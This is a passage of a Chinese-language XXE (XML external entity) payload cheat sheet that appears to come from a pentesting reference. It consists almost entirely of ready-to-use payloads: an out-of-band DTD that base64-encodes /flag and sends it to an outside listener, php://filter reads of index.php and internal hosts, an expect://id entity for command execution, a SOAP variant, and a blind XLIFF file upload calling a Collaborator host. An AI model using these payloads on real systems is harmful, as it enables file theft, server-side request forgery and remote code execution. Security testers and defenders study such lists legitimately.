 DTD 示例：

```xml-dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

### PHP Wrappers

#### Base64

##### 提取 index.php：

```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### 提取外部资源：

```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">]>
```

#### 远程代码执行

如果 PHP 的 expect 模块被加载了

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### SOAP - XEE

```xml-dtd
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### XLIFF - XXE

XLIFF（XML Localization Interchange File Format，XML本地化交换文件格式）是一种基于XML的位文本格式，用于标准化本地化过程中可本地化数据在工具之间传递的方式，也是CAT工具交换的通用格式。

#### Blind request

```xml-dtd
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
